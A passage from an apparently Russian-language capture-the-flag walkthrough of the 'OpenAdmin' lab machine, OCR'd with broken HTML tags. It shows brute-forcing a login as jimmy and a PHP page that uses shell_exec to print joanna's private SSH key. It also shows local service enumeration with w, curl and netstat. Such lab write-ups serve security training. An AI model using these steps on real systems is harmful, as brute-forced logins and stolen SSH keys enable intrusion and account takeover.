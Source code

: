 ```html
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

>Осталось узнать кому принадлежит этот пароль, для этого воспользуемся следующей утилитой:

```html
$ w
 14:32:26 up  1:11,  4 users,  load average: 0.85, 5.34, 6.79
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jimmy    pts/0    10.10.15.159     13:23    7.00s  0.08s  0.08s -bash
joanna   pts/1    10.10.16.23      13:32   19:44   0.21s  0.00s sh
joanna   pts/3    10.10.14.171     14:15    5:22   0.07s  0.02s /bin/nano /opt/priv
jimmy    pts/5    10.10.15.146     14:21   25.00s  0.16s  0.16s -bash
```

>Так мы сможем просмотреть пользователей, которые в данный момент активны. Ну или посмотреть историю входа в систему с помощью "last -a"
>Перебором входим как jimmy:

```html
jimmy@openadmin://var/www/internal$ cat main.php
?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "pre $output /pre";
?
Don't forget your "ninja" password
```

>Файл "index.php" содержит в себе команду на чтение файла id_rsa, который нам нужен. Но при попытке обращения получаем 404.

```html
jimmy@openadmin://var/www/internal$ curl http://localhost/main.php
DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
title 404 Not Found /title
p The requested URL was not found on this server. /p
address Apache/2.4.29 (Ubuntu) Server at 127.0.0.1 Port 80 /address
```

>Попробуем с другими портами, для этого выполним команду netstat, чтобы просмотреть подключения. Флаг "-tul" - это объединение -t(TCP соединения), -u(UDP соединения), -l(все открытые порты):

```html
jimmy@openadmin://var/www/internal$ netstat -tul
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:<mark>52846</mark>         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
udp        0      0 localhost:domain        0.0.0.0:* 
```
